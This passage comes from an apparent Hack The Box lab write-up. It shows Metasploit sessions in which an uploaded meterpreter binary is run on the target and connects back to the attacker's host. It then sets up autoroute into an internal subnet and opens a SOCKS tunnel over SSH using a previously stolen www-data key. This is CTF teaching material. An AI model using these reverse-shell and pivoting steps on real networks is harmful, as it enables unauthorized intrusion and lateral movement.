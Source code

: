 Now we upload the meterpreter, drop into a command shell, make the binary executable and run it as background process. The next meterpreter connects almost instantly back to us and we can now set the routing up.

```
meterpreter > upload m7575
[*] uploading  : /home/jack/htb/boxes/static/writeup/m7575 -> m7575
[*] Uploaded -1.00 B of 1013.03 KiB (0.0%): /home/jack/htb/boxes/static/writeup/m7575 -> m7575
[*] uploaded   : /home/jack/htb/boxes/static/writeup/m7575 -> m7575
meterpreter > shell
Process 53 created.
Channel 1 created.
chmod +x /tmp/m7575
/tmp/m7575 &
[*] Meterpreter session 2 opened (172.30.0.8:7575 -> 172.30.0.1:60536) at 2021-06-20 08:37:15 +0000
^C
Terminate channel 1? [y/N]  y
meterpreter > bg
[*] Backgrounding session 1...
```

For this we us the routing feature set the session to our second meterpreter, set the subnet to the pki subnet and run the module.

```
msf6 post(multi/manage/autoroute) > set session 2
session => 2
msf6 post(multi/manage/autoroute) > set subnet 192.168.254.0
subnet => 192.168.254.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module.
[*] Running module against 172.20.0.10
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.20.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.254.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

To reach the subnet from our local machine with our tools we also use our previously gathered ssh key for www-data and connect to the server with dynamic socks portforwarding by using the `-D 1080` command line option.

```
$ ssh -i id_rsa www-data@10.129.78.9 -D 1080 -p 2222
The authenticity of host '[10.129.78.9]:2222 ([10.129.78.9]:2222)' can't be established.
ECDSA key fingerprint is SHA256:SO5uMKk4fPWk/kDc0dLD5Uf7dlyIes4r6s26waZlxkQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.78.9]:2222' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.19.0-16-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$
```
